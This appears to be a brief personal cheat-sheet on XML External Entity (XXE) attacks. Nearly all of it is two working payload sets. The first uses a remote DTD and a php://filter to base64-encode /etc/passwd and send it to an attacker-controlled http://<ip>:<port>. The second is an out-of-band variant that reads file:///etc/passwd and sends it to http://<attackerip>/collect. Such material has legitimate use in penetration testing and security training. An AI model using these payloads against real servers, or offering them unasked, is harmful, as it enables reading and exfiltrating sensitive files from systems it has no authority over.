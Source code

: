 # XXE

Insert entities into xml that request external ressources or deliver internal file contents.


## Common XEE:

xxe.xml:
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://<ip>:<port>xxe.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```
xxe.dtd
```
!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://<ip>:<port>/?%data;'>">
```


## Out-of-band XXE:

Request
```
<?xml version="1.0"?>
<!DOCTYPE thp[
	<!ELEMENT thp ANY>
	<!ENTITY % dtd SYSTEM "http://<attackerip>/payload.dtd">
%dtd;]>
<thp></thp>
```
Payload:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://<attackerip>/collect=%file'>">
%all 
```

tags: #xxe 
